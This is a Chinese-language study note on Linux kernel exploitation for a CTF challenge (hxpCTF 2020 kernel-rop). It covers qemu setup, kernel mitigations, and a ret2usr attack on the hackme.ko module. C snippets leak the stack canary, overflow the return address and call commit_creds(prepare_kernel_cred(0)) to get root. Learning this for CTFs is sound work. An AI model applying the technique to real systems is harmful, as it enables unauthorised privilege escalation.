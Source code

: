 # Learning Linux Kernel Exploitation

这一刻还是来了吗，kernel？参考教程：
- https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/

此为极简（存疑）笔记，尝试直接把知识点记下来（我也不知道它重不重要，记就完了）

kernel pwn目标：攻击在启动时安装到内核中的自定义内核模块。

大部分情况会给出module相关的文件，用qemu做模拟器。极特别情况会给VMWare或者VirtualBox的镜像，甚至不给任何模拟环境。拿hxpCTF 2020的kernel-rop给的文件举例：
- [vmlinuz](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/vmlinuz) - 压缩的Linux kernel文件, 有时候称之为bzImage, 可用vmlinux将其解压为真正的kernel elf文件
- [initramfs.cpio.gz](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/initramfs.cpio.gz) - 用cpio和gzip压缩的linux文件系统。比如/bin,/etc，通常有漏洞的kernel模块也在里面。其他题目可能用其他的压缩方式
- [run.sh](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/run.sh) - 一个包含qemu命令的脚本文件。可自行修改配置

（建议下载文件跟着教程做，排查一下自己的系统有没有运行、调试等问题）

可用[脚本](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/extract-image.sh)从vmlinuz里解压出kernel elf文件。解压是为了找里面的rop gadget。kernel里的rop和普通情况下差不多。找gadget也是用ROPgadget命令，但是建议一拿到题就运行命令，并将输出结果保存到一个文件中
```sh
ROPgadget --binary ./vmlinux > gadgets.txt
```
这是因为kernel image很大，命令耗时较长。

解压linux文件系统的命令取决于题目的压缩方式(推荐把文件系统解压到一个空文件夹下，不然和题目文件混在一起乱得摸不着头脑)。解压不仅是为了拿到有漏洞的模块，还能让我们修改这个文件系统里的文件。从/etc入手，因为启动后大部分运行的初始化脚本都存储在这。特别注意寻找下面这行（通常在/etc/init.d/rcS或者/etc/inittab）然后修改
```sh
setuidgid 1000 /bin/sh
#改成下面的
setuidgid 0 /bin/sh
```
这行代码用于在启动后开启一个UID为1000的非root shell。把UID改成0后，我们就有了root shell。这么做是为了查看下面这些文件，它们提供的信息有助于我们利用漏洞
- /proc/kallsyms 列出加载到kernel中的所有symbol的地址
- /sys/module/core/sections/.text 给出kernel `.text`段的地址，也是base address（虽然有些题目没有/sys文件夹，不过base address还可以从/proc/kallsyms拿）

切记运行poc时把UID设回1000，防止我们以为自己拿到了root shell，但其实没有

后面写出poc还要把poc放回解压的文件系统中，然后重新压缩成要求的格式。

分析qemu命令：
```sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1"
```
- -m 指定内存大小。假如因为某种原因没法启动模拟器，尝试提高内存大小。
- -cpu 指定CPU model，+smep 和 +smap启用SMEP 和 SMAP mitigation feature（linux的漏洞缓解机制，下面有）
- -kernel 指定压缩的kernel image
- -initrd 指定压缩的文件系统
- -append 指定额外的启动选项。也可以在这选择是否启用漏洞缓解
- -hdb 把flag.txt放进/dev/sda
更多参考 https://manpages.debian.org/jessie/qemu-system-x86/qemu-system-x86_64.1.en.html

记得给qemu命令添加个-s选项(就在-append后面加个-s即可)，这样就能远程调试模拟器的kernel了。如果没有安装qemu-system-x86_64的话，可以尝试：
- `sudo apt-get install qemu-system`:这个直接把qemu-system全家桶装上了，不仅仅是qemu-system-x86_64
- `sudo apt-get install -y qemu-system-x86-64`:单纯装qemu-system-x86_64

然后运行qemu命令即可。再打开个cmd界面就能用gdb调试了。建议调试远程kernel时禁用peda, pwndbg或者GEF，这些插件有时候会奇奇怪怪的。直接用`gdb --nx vmlinux`
```sh
gdb --nx vmlinux
(gdb) target remote localhost:1234 #这个localhost:1234似乎是默认的，我运行qemu后啥也没设置也能连接上
```

就像用户态程序的ASLR, stack canaries, PIE（我现在才知道这些东西叫漏洞缓解机制），kernel也有自己的漏洞缓解机制。
- [Kernel stack cookies(or canaries)](http://www.phrack.org/issues/49/14.html#article):和用户态的stack canary完全一致。编译时启用且无法被禁用
- [Kernel address space layout randomization(KASLR)](https://lwn.net/Articles/569635/)：也和用户态的ASLR相似。每次系统启动，kernel挂载时，该机制随机化kernel的基地址。可以在qemu的-append选项里添加kaslr或者nokaslr启用/禁用该功能
- [Supervisor mode execution protection(SMEP)](https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging_technologies/fischer.pdf):当进程在kernel mode的话，标记页表中所有用户态内存页不可执行。kernel中可通过设置控制寄存器CR4的第20个bit启用。用boot启动时，可通过在-cpu选项后加上+smep启用；在-append后加上nosmep禁用
- [Supervisor Mode Access Prevention(SMAP)](https://lwn.net/Articles/517475/)：当进程处于内核模式时，此功能将页表中所有用户态内存页标记为不可访问，意味着这回连读和写都不行了。kernel中可通过设置控制寄存器CR4的第21个bit启用。用boot启动时，可通过在-cpu选项后加上+smap启用；在-append后加上nosmap禁用
- [Kernel page-table isolation(KPTI)](https://lwn.net/Articles/741878/):用两组页表将用户空间和内核空间的页表完全隔离，而不是使用一个同时包含用户空间和内核空间地址的页表。可通过在-append选项后添加kpti=1或nopti启用/禁用

然后就是分析hackme.ko了（在解压后的文件系统里）。个人建议拿ida或者ghidra反编译看看，有些函数一般pwn不常见，熟悉一下。在`hackme_init`里用`misc_register`注册了一个名为hackme的设备。这段在ghidra里有点谜语人，设备的详细信息在一个名为hackme_misc的结构里，点开后有个`s_hackme_0010025c`，是设备名；`hackme_fops`是记录所有操作的结构：hackme_read, hackme_write, hackme_open和hackme_release。这意味着我们可以通过打开/dev/hackme与这个模块交互并执行读写操作。

对设备执行读或写操作会调用kernel里的hackme_read或hackme_write。代码审计部分略过，此题漏洞在于buffer overflow。

ret2usr：我们能控制用户态（userland，似乎这个翻译不太准确）的内容，那就能采用与ret2shellcode类似的思路，把shellcode放到userland，然后让程序流跳转到userland。所以可以覆盖kernel所调用函数的返回地址为shellcode所在的userland地址。因为漏洞函数是个kernel函数，所以即使我们的shellcode在userland，跳转过去后还是在kernel mode下执行。

这种办法需要关闭smep，smap，kpti和kaslr。可以说已经过时了。但是借这个漏洞poc熟悉一下kernel pwn流程还是可以的。

在与模块交互之前，需要先打开它。打开device的方法和打开普通文件的方法相同。
```c
int global_fd;
void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
}
```
然后就能用global_fd读和写了。泄露canary也不难，此题的buf为0x80字节，canary跟在后面。如果把数据读进unsigned long的数组（每个元素8字节），那么canary在偏移为16的位置。
```c
unsigned long cookie;
void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak)); //所以似乎打开device后直接就是stack了
    cookie = leak[16];
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```
我在ghidra里看到buffer在stack-0xa0,为什么这里说长度是0x80？划到函数最底下，发现pop了3个寄存器。看来kernel里栈上存储的寄存器比userland的pwn多了两个r12和rbx。再加上canary和rbp，共占0x20.0x80+0x20=0xa0，没问题。目前我们了解到了栈上的布局：
```
buf
canary
rbx
r12
rbp
```
最后还是利用unsigned long数组和write写返回地址
```c
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret，escalate_privs是下面调用commit_creds(prepare_kernel_cred(0))的shellcode
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
```
kernel pwn里不用`system("/bin/sh")`或`execve("/bin/sh", NULL, NULL)`getshell，而是需要获取系统的root权限然后弹一个root shell。通常利用commit_creds()和prepare_kernel_cred()这俩已经在kernel-space里的函数。只需像这样调用两个函数：
```c
commit_creds(prepare_kernel_cred(0))
```
关闭kaslr的情况下，这两个函数的地址每次boot都是一样的。直接从/proc/kallsyms获取地址：
```sh
cat /proc/kallsyms | grep commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
```
怎么调用都行，只需要连续调用这两个函数然后让其中一个函数的返回值作为另一个函数的参数即可。参考作者的写法，用intel syntax直接在C里写汇编。

还没结束，写好shellcode，填好返回地址（这个返回地址是我们在poc里写的一个函数的地址，因此还在kernel里）后，我们仍然在kernel mode执行，需要返回到user mode。如果kernel正常运行，在遇见其中一个指令(x86_64)后会返回userland：sysretq或iretq。通常都用iretq，因为sysretq比较难用。iretq只需要按下面的顺序在栈上设置好5个userland寄存器值：RIP|CS|RFLAGS|SP|SS

程序记录两套不同的寄存器值，一个给user mode，另一个给kernel mode。对于rip，可以直接把它设置成弹shell的函数。然而其它寄存器不能随便设置，不然可能没法正常执行。这个好办，在进入kernel mode前记录这些寄存器的值（所以在open /dev/hackme之前都在user mode吧？），等拿到root权限后再加载回来。

还有一件事，在x86_64上，调用iretq前必须先调用swapgs。这个指令的作用是交换kernel mode和user mode的GS寄存器值。

完整exp：https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/ret2usr.c